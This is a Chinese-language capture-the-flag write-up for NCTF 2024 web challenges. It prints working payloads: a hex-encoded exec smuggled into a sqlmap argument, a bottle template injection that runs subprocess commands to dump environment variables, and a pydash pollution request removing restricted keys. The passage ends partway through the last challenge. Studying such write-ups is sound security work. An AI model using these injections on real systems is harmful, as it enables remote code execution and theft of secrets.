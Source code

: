 ```yaml
---
title: NCTF 2024 WP
date: 2025-04-14 18:13:44
tags: [cry,web,re,pwn,misc]
categories: wp
typora-root-url: ./..
---
```


# NCTF 2024

**排名：6**

## WEB

拉门特许超级无敌详细版：

> https://www.cnblogs.com/LAMENTXU/articles/18799383

### sqlmap-master

签到题。

sqlmap有个--exec可以执行。直接执行会有编码问题（我也不知道为什么）。但是可以用fromhex绕

payload：

> 127.0.0.1?id=1 --eval=exec(bytes.fromhex('5F5F696D706F72745F5F28276F7327292E73797374656D2827656E762729'))

### ez_dash

我是第一个报告非预期的（大声）

根本不需要污染。bottle里<%也可以执行，waf没禁完。

直接打abort回显。秒了。

> GET /render?path=<%%20from%20bottle%20import%20abort%0afrom%20subprocess%20import%20getoutput%0aa=getoutput("env")%0aabort(404,a)%20%>

### ez_dash_revenge

首先污染掉pydash的helpers.RESTRICTED_KEYS，不然拿不到__globals__

> POST /setValue?name=pydash HTTP/1.1
>
> {
>
> "path": "helpers.RESTRICTED_KEYS",
>
> "value": "123"
>
> }
